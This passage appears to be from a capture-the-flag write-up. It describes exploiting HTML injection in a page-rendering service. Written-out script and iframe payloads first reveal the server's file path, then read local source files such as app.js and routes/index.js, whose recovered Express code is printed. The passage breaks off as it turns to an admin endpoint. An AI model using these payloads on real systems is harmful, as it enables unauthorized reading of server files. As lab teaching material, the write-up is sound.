 {% code overflow="wrap" %}
```js
<script>document.body.append(location.href)</script>
```
{% endcode %}

Returns `file:///app/tmp/3c433348-60e3-4a48-b989-2a168954147f.html`

Since we confirmed the file location as `/app`, we can enumerate common files, either manually or by brute-forcing a [wordlist](https://github.com/danielmiessler/SecLists).

#### app/app.js

{% code overflow="wrap" %}
```js
<iframe src="/app/app.js" style="width: 999px; height: 999px"></iframe>
```
{% endcode %}

We'll quickly recover the source code for `app.js`.

{% code overflow="wrap" %}
```js
const express = require("express");
const { engine } = require("express-handlebars");
const cookieParser = require("cookie-parser");
const { auth } = require("./middleware/auth");
const app = express();
app.engine("handlebars", engine());
app.set("view engine", "handlebars");
app.set("views", "./views");
app.use(express.json());
app.use(cookieParser());
app.use(auth);
app.use("/static", express.static("static"));
app.use("/", require("./routes/index"));
app.use("/api", require("./routes/api"));
app.listen(3000, () => {
    console.log("Listening on port 3000...");
});
```
{% endcode %}

This introduces some new paths to investigate (`/routes/index` and `/routes/api`) so we repeat the previous technique.

#### app/routes/index.js

{% code overflow="wrap" %}
```js
<iframe src="/app/routes/index.js" style="width: 999px; height: 999px"></iframe>
```
{% endcode %}

`index.js` confirms our target is the `/admin` endpoint. Currently, when we try to access the page we get `Only admins can view this page`.
